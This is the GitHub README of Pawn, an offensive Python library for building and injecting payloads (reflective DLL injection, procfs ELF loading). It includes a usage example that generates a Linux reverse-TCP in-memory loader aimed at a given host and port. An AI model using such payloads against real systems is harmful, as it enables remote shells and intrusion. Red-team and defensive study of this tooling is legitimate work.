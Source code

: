 # Pawn

<p>
    <a href="https://entysec.com">
        <img src="https://img.shields.io/badge/developer-EntySec-blue.svg">
    </a>
    <a href="https://github.com/EntySec/Pawn">
        <img src="https://img.shields.io/badge/language-Python-blue.svg">
    </a>
    <a href="https://github.com/EntySec/Pawn/stargazers">
        <img src="https://img.shields.io/github/stars/EntySec/Pawn?color=yellow">
    </a>
</p>

Pawn is a collection of Python techniques used for crafting, manipulating and injecting payloads.

## Features

* Support for `Windows`, `macOS`, `Linux` and `Apple iOS` payloads.
* Support for such techniques like `Reflective DLL Injection` and `procfs loader`.
* Has modular system which allows you to write your own custom payloads.

## Installation

```
pip3 install git+https://github.com/EntySec/Pawn
```

## Examples

Example of obtaining [ELF procfs loader](https://blog.entysec.com/2023-04-02-remote-elf-loading/) with custom host and port.

```python
from pawn import Pawn

pawn = Pawn()

payload, send_size = pawn.get_pawn(
    module='linux/x64/reverse_tcp_memfd',
    platfrom='linux',
    arch='x64',
    host='127.0.0.1',
    port=8888
)

print(len(payload))
print(payload)
```

## Special Thanks

* Some parts of **assembly code for Windows** were ported from free open-source project [Metasploit Framework](https://github.com/rapid7/metasploit-framework).
